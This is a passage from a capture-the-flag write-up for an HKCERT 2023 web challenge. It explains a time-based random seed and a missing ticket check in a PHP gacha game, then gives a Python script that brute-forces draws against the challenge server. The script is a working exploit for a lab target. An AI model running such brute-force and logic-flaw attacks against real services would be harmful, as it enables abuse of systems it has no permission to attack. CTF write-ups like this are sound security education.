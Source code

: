**After fumbling around, I realized that the `$seed` is time-sensitive:**
```php
$seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed
```

Hmm... Maybe every second's drawing result will be the same??

**I also found that we can actually draw 29 times instead of 20 times, as `gacha10` doesn't check we have at least 10 tickets or not.**

**So we can draw 29 times via 9 `gacha1`, and 2 `gacha10`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113195712.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113195729.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113195739.png)

**Hence, since the `$seed` is time-sensitive, we can just brute force it to try to get UR + SSR >= 20.**

**To do so, I'll write a script using Python:**
```python
import asyncio
import aiohttp
from bs4 import BeautifulSoup
from time import sleep
import re

async def main():
    while True:
        # brute force it with 0.3 seconds delay, 
        # so we won't beat the server to death
        sleep(0.3)
        async with aiohttp.ClientSession() as sess:
            for _ in range(9):
                resp = await sess.get(URL_GACHA1)
                response_body = await resp.text()
            for _ in range(2):
                resp = await sess.get(URL_GACHA10)
                response_body = await resp.text()

            soup = BeautifulSoup(response_body, 'html.parser')
            pTags = soup.find_all('p')
            sessionId = pTags[0].text
            inventory = pTags[2].text

            sessionIdMatch = re.search(r'Your ID is ([a-fA-F0-9]+)', sessionId)
            urMatch = re.search(r'\[UR\] => (\d+)', inventory)
            ssrMatch = re.search(r'\[SSR\] => (\d+)', inventory)

            idValue = sessionIdMatch.group(1)
            urValue = int(urMatch.group(1))
            ssrValue = int(ssrMatch.group(1))

            urSSRValue = urValue + ssrValue
            print(f'[*] Trying... Session ID: {idValue}, UR + SSR value: {urSSRValue}', end='\r')
            if urSSRValue >= 20:
                print('\n[+] We got UR + SSR >= 20!!')
                print(f'[+] Session ID: {idValue}')
                print(f'[+] UR value: {urValue}')
                print(f'[+] SSR value: {ssrValue}')
                exit(0)

if __name__ == '__main__':
    URL_GACHA10 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha10=blah'
```